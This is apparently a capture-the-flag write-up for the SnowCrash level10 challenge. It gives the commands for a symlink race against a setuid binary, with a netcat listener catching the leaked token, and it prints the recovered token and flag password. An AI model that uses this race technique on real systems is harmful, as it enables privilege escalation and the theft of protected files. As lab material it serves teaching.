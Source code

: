 ### Comment obtenir le flag
in different terminals:  
  
level10@SnowCrash:~$ nc -lkv 6969  
  
level10@SnowCrash:~$ while true; do ./level10 /tmp/file 192.168.1.63; done  
  
level10@SnowCrash:~$ while true; do rm -Rf /tmp/file; echo "test" > /tmp/file; rm -Rf /tmp/file; ln -s /home/user/level10/token /tmp/file; rm -Rf /tmp/file; done  
  
Connection from 192.168.1.63 port 6969 [tcp/\*] accepted  
.\*( )\*.  
test  
Connection from 192.168.1.63 port 6969 [tcp/\*] accepted  
.\*( )\*.  
woupa2yuojeeaaed06riuj63c  
level10@SnowCrash:~$ su flag10  
Password:  
Don't forget to launch getflag !  
feulo4b72j7edeahuete3no7c
